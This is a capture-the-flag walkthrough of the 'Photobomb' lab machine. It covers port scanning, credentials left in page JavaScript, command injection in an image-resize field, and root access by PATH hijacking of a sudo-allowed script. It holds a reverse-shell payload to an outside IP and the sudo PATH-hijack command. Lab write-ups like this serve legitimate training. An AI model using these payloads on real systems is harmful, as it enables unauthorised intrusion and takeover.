 # Photobomb

## Nmap scan
<br>

```bash
sudo nmap -sS --min-rate 5000 -p- -Pn -n -vvv --open 10.10.11.182
```
![image](./images/nmapsS.png)
```bash
nmap -sCV -p 22,80 10.10.11.182 -oN nmap
```
![image](./images/nmapsCV.png)

We have two ports open: 22 (ssh) and 80 (http)

<br>

## Web exploitation

<br>

The website has a basic http auth for accesing the printer functionality.

![image](./images/webAuth.png)

We can find the credentials in plain text in the javascript of the web page.

![image](./images/webCreds.png)

In the printer section we can select the file type and the dimensions of the file we want to download. If we intercept the traffic with burp, and include a null byte in one of the parameters, we can produce an error.

![image](./images/webRequest.png)
![image](./images/webError.png)

We can see that the error shows the source code of the program. The program executes a command to resize an image if the image doesn't already exists. So we can use inject commands to get RCE on the machine.
We use the following payload to try to get a reverse shell.

```bash
;bash -c 'bash -i >& /dev/tcp/10.10.14.99/1234 0>&1'
```
![image](./images/reverseRequest.png)
![image](./images/reverseShell.png)

<br>

## Privesc

<br>

Executing sudo -l we see that we can run as root and set the environment variables of the command /opt/cleanup.sh

![image](./images/sudol.png)

We can abuse this by using path hijacking, we can provide a new PATH variable to execute a script that we control if the cleanup.sh script doesn't use the full path of the binary.

![image](./images/cleanup.png)

For example we can use the command find because it doesn't use the full path of the binary.

![image](./images/find.png)

We create a find script on /tmp to later add the /tmp folder to the path and execute the find script that we control first. We execute the following command changing the PATH to PATH=/tmp:/bin and we get a shell as root.

```bash
sudo -E PATH=/tmp:/bin /opt/cleanup.sh
```

![image](./images/root.png)
